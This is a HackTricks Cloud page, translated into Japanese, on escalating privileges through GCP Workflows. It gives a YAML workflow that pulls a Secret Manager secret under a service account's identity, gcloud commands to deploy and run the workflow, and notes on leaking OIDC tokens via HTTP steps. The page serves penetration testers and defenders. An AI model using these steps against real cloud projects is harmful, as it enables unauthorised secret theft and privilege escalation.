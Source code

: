 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

基本情報:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

私の知る限り、Workflowに攻撃されたSAの資格情報を含むメタデータエンドポイントへのアクセスでシェルを取得することは不可能です。しかし、Workflow内で実行するアクションを追加することで、SAの権限を悪用することは可能です。

コネクタのドキュメントを見つけることができます。例えば、これは[**Secretmanagerコネクタのページ**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**です。** サイドバーには他のいくつかのコネクタが見つかります。

ここに秘密を印刷するコネクタの例があります:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLIからの更新:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
`ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`というエラーが表示された場合は、**1分待って再試行してください**。

ウェブアクセスがない場合でも、次の方法でWorkflowの実行をトリガーして確認することができます：

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
以前の実行の出力を確認して、機密情報を探すこともできます。
{% endhint %}

`PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` のようなエラーが発生しても、その権限がないために、ワークフローは生成されています。

### OIDCトークンの漏洩（およびOAuth？）

[**ドキュメントによると**](https://cloud.google.com/workflows/docs/authenticate-from-workflow)、OAuthまたはOIDCトークンを持つHTTPリクエストを送信するワークフローステップを使用することが可能です。しかし、[Cloud Scheduler](gcp-cloudscheduler-privesc.md)の場合と同様に、OAuthトークンを持つHTTPリクエストはホスト`.googleapis.com`に対して行う必要があります。

{% hint style="danger" %}
したがって、**ユーザーが制御するHTTPエンドポイントを指定することでOIDCトークンを漏洩させることは可能ですが、**OAuthトークンを漏洩させるにはその保護を**バイパスする必要があります。しかし、**コネクタまたはOAuthトークンを使用したHTTPリクエストで、SAの代わりにアクションを実行するために任意のGCP APIに**連絡することは依然として可能です。
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

この権限を使用すると、`workflows.workflows.create`の代わりに、既存のワークフローを更新し、同じ攻撃を実行することが可能です。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
